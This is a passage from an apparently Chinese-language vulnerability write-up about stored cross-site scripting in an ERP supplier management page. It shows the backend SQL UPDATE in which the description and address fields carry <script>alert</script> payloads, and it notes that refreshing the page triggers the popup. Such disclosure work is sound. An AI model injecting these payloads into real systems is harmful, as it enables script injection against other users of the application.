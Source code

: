 [![](assets/1706957928-e02aa1db5670495ed23b93094531f9a1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233422-5f64d1ce-c117-1.png)

后台执行的 SQL 语句

```plain
UPDATE jsh_supplier SET supplier = '客户 1', contacts = '小李', phone_num = '12345678', email = '', description = '<script>alert(\'desc\')</script>', type = '客户', enabled = 1, begin_need_get = '0', begin_need_pay = '0', all_need_get = '80', fax = '', telephone = '', address = '<script>alert(\'address\')</script>', tax_num = '', bank_name = '', account_number = '', tax_rate = '12' WHERE jsh_supplier.tenant_id = 63 AND id = 58
```

刷新界面触发 XSS 弹窗

[![](assets/1706957928-322d2fc21ffd2f8d7b86af0bcfdbb80c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233435-6774066e-c117-1.png)

### 其他漏洞点

[![](assets/1706957928-9dd9b49889f2f9e66a0907a32daf5043.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233446-6ded6800-c117-1.png)
